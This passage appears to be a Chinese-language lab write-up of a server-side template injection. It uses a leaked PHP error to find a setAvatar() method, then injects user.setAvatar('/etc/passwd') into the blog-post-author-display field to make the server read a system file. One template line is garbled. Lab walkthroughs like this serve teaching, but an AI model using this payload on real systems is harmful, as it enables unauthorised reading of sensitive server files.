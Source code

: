 错误

```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/vnd.openxmlformats-officedocument.presentationml.presentation in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/DRUG LICEN...', 'application/vnd...')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

我们可以在一条错误消息中看到，我们有另一个与名为 setAvatar()的用户相关联的方法。我们还可以看到它在第一个参数中加载一个文件，在第二个参数中获取它的 mime 类型，也许我们可以在第一个参数中加载`/etc/passwd`文件。

让我们在改名请求上试试。

![](img/84973f4e4251abd291c66dde39a3dc4d.png)

```
blog-post-author-display=user.setAvatar('/etc/passwd')
```

在后端，它可以被执行为

blog-post-author-display = { { user . set avatar('/etc/passwd ')} }

只需发送请求并重新加载页面。

![](img/cb320e3dc66ce738d4b8b8f84e32c016.png)
